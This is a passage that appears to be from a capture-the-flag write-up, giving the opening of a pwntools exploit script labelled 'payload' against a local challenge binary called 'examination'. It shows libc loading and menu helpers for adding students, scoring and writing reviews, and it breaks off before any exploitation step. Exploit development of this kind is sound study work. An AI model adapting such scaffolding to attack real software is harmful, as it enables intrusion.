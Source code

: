 ![](9.png)

payload:
```python
from pwn import *
context(arch='amd64', log_level='debug')

io = process('./examination')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

students = [0, 0, 0, 0, 0, 0, 0]
reviews = [None, None, None, None, None, None, None]
chunk_addr = [0, 0, 0, 0, 0, 0, 0]
scores = [0, 0, 0, 0, 0, 0, 0]
current_role = 0
current_sid = 0
student_num = 0

def add_student(q):
	global student_num
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'1')
	io.sendlineafter(b'enter the number of questions: ', str(q).encode())
	students[student_num] = 1
	chunk_addr[student_num] = 'unknown'
	student_num += 1

def give_score():
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'2')
	io.recvuntil(b'marking testing papers.....\n')
	sid = 0
	while True:
		s = io.recvuntil(b'\n', drop=True)
		if s == b'finish':
			break
		elif b'score' in s:
			sid = s[14] - 0x30
			scores[sid] = int(s[29:].decode(), 10)
		else:
			scores[sid] -= 10
			if scores[sid] < 0:
				scores[sid] += 256
	
def write_review(sid, size, comment, bytes=False, enter=True):
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'3')
	io.sendlineafter(b'which one? > ', str(sid).encode())
	if reviews[sid] is None:
		io.sendlineafter(b'please input the size of comment: ', str(size).encode())
	if enter:
		if not bytes:
			io.sendlineafter(b'enter your comment:', comment.encode())
		else:
			io.sendlineafter(b'enter your comment:', comment)
	else:
		if not bytes:
			io.sendafter(b'enter your comment:', comment.encode())
		else:
			io.sendafter(b'enter your comment:', comment)
	reviews[sid] = comment

def call_parent(sid):
	global student_num
```